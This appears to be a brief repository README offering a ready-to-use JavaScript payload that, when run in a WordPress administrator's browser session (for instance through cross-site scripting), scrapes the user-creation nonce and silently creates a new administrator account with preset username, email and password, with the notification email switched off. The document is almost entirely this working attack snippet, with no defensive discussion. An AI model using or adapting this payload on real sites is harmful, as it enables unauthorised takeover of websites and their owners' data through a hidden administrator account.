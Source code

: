 # WordPress JS Snippets #

## Create Admin ##
Minimal-ish JS payload to grab a new user nonce and use it to create a new administrator. Configurable bits at the start (path to WordPress root, username, email address, and password for the new user).

    u='/path-to-wp-root';un='username';em='em@a.il',pw='passwurd!';nu=u+'/wp-admin/user-new.php';j=jQuery;j.get(nu,function(d){n=d.split("_wpnonce_create-user\" value=\"")[1].split("\"")[0];j.post(nu,{action:'createuser','_wpnonce_create-user':n,'_wp_http_referer':nu,'user_login':un,email:em,'first_name':'','last_name':'',url:'',pass1:pw,'pass1-text':pw,pass2:pw,'pw_weak':'on','send_user_notification':'0',role:'administrator',createuser:'Add New User'});})
